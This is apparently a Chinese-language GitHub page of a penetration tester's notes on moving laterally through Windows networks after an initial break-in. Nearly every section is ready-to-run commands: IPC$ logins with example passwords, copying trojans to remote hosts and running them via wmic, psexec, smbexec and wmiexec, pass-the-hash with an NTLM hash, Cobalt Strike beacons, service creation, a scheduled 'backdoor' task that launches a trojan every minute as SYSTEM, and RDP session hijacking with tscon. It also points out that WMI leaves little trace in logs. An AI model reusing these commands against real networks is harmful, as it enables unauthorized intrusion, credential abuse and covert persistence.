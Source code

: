 实战中记录下横向的一些方法，打内网第一步是免杀，其次是横向扩展，横向会碰见很多奇怪的问题，要么权限不够，要不组策略错误，所以总结经常用的基于口令的横向扩展方法



![图片](https://user-images.githubusercontent.com/118274389/229700985-35b5534e-3c49-4a54-81ac-606ab91fa106.png)


## 0x00 碰见的横向移动方法总结1_IPC（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    查看远程主机文件
    
    
    dir \\192.168.52.143\c$
    dir \\192.168.52.143\c$\xx文件夹
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\c$\Windows\Temp\ma.exe
    shell copy 123.exe \\192.168.250.50\c$
      
    wmic远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    也可以使用psexec进行远程执行
    
    psexec.exe -accepteula \\192.168.41.150 -h -d c:\wanli.exe
    
    如果发现很久没有上线，可能目标不出网

## 0x01 横向移动方法总结2_beacon
 
    SMB Beacon使用命名管道和父级命名管道进行通信,所以利用他可进行横向移动
    
    使用条件
    
    使用SMB的主机必修接受445端口打开
    只能链接由同一Cobalt Strike实例管理的Beacon
## 0x02 横向移动方法3_PTH攻击

    psexec工具功能之一是远程启动交互式shell,这个工具不需要对方开启3389端口，只需要开启admin$共享即可。
    
    使用方法1
    
    1.psexec 需要建立ipc连接进行横向移动
    
     net use \\192.168.3.144\ipc$ “admin!@#45” /user:"administrator"  #和对方建立IPC链接，出现弹框点击agree
     psexec \\192.168.3.64 -s cmd cmd     #   -s,表示以system权限运行窗口，成功返回目标主机system权限窗口
     
    2.ps不需要建立ipc连接进行横向移动
     
     前提开启admin$共享
    
     psexec \\192.168.3.144 -u administrator -p admin123！！ -s cmd   #实战中碰见很多未知问题，可以换其他的横向方法
     
     注意官方自带的psexec只能通过明文进行传递攻击，密码是行不通的，例如 psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144 是不可以的
     
    3.利用impacket中的工具包进行横向渗透，可解决密文攻击问题
    
      impacket工具包里有个psexec，可进行密文传递攻击，下载地址：https://github.com/maaaaz/impacket-examples-windows
      
      psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.144
      
      这块记录给自己留个作业，可以写个工具，针对不同的用户和密码进行组合后进行喷洒。
    
    4.smbexec无需IPC连接进行横向移动
    
      smbexec.exe mssql:Admin@1234@192.168.251.252 # 连接本地用户组
      
      smbexec.exe ROOTKIT.ORG/administrator:admin!@#45@192.168.3.144  # 连接域内用户
      
      ![图片](https://user-images.githubusercontent.com/118274389/229289834-9cdb8adb-9302-47bb-9925-609ac5db69e6.png)

      
    以上方法CS里自带该功能。

## 0x03 横向移动方法4_票据攻击

    参考；https://blog.csdn.net/qq_56426046/article/details/127819030

## 0x04 横向移动方法5_远控攻击

  远控攻击就是给目标装一些免安装的远控软件，例如：向日葵、todesk

  https://github.com/wafinfo/Sunflower_get_Password
  
  
## 0x05 利用WMI进行横向移动攻击

  WMI的全名为（Windows Management Instrumentation）由于安全厂商开始将PsExec加入了黑名单，所以攻击者暴露的可能性陡然增加。根据研究情况来看，Windows操作系统默认不会将WMI的   操作记录到日志当中，而且因为采用的是无文件攻击，所以导致WMI具有极高的隐蔽性。由此，越来越多的APT开始使用WMI进行攻击，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执   行、权限持久化等操作。
  Windows操作系统都支持WMI。WMI是由一系列工具集组成的，可以在本地或者远程管理计算机系统。通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系   统留下痕迹。
  
  利用系统自带的wmi进行明文横向扩展
  
  wmic /node:192.168.3.144 /user:administrator /password:admin!@#45 process call create "md.exe /c ipconfig >C:\3.txt"
  
  在使用自带的wmic时，无回显，ipconfig这条命令显示的内容保存在3.txt文件中，并且是在对方的主机中，较为鸡肋。

## 0x06 利用impacket工具包中的wmiexec进行横向移动

   命令：wmiexec ./Administrator:admin!@#45@192.168.3.144 "whoami" ##如果直接上CS的话，上线后的权限为administrator
   
   hash攻击命令：wmiexec -hashes :518b98ad4178a53695dc997aa02d455c Administrator@192.168.3.73 "whoami"
   
 ## 0x07 IPC+windows服务进行横向移动
 
    该方法横向是将木马传入到对方机器里，通过SC命令创建window来指向该传入的木马，重启该服务或者重启机器达到上线CS的目的，该横向步骤如下；
    
    1.创建IPC$连接。
    
    2.将要运行的服务拷贝到目标机器。
    
    3.执行 sc \\192.168.3.144 create cmd binpath="c:\cmd.bat"
    
    参考文章：https://www.freesion.com/article/2259895176/
    
 ## 0x08 IPC+计划任务进行横向移动
 
     利用AT进行横向移动
 
     1.先建立IPC任务 net use \\192.168.3.144\ipc$ "admin!@#45"/user:rookit.org\administrator
    
     2.添加添加用户bat脚本，也可以添加木马脚本
     
     3.将bat脚本发送到目标机器copy 1.bat \\192.168.3.144\c$
     
     4.利用at启动该bat脚本 at \\192.168.1.144 20:05 c:\adduser.bat （2008及以后系统不在使用at命令，可以尝试其他命令进行启动，如schtasks）
     
      每一分钟启动一次shell.exe木马
     
     schtasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f
     
     在没有建立ipc连接前提，可以添加账户密码方式进行启动shell.exe木马（启动成功前提：具有管理员权限）
     
     schtasks /create /s 192.168.183.130 /u administrator /p Liu78963 /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f
     
     要是碰见schtasks启动不成功，可以尝试psexec、wmiexec等工具
 
      参考：https://cloud.tencent.com/developer/article/1743842
 
   
  
  
## 0x09 其他横向技巧

  Windows Server 2012及以上不提取密码登录Administrator桌面（登录这个桌面目的是看看Administrator桌面有啥，方便横向）
  
  2012及高版本想要得到密码，只能通过修改注册表，然后让管理员重新登录主机才能得到密码，一般服务器重新进行登录时候很少。我们可以通过一些技巧得到Administrator权限，
  
  拿到shell后，whoami是system权限，可以添加用户后，上隧道把远程桌面代理出来，此时的权限仍然是system权限
  
  此时想要得到Administrator权限步骤如下：
  
  1.psexec启动一个system权限的cmd  命令：psexec.exe -s -i cmd.exe  
  
  2.query user 
  
  3.查看administrator会话id   
  
  4.tscon 1 切换会话id为Administrator权限
  
  
  
  
  


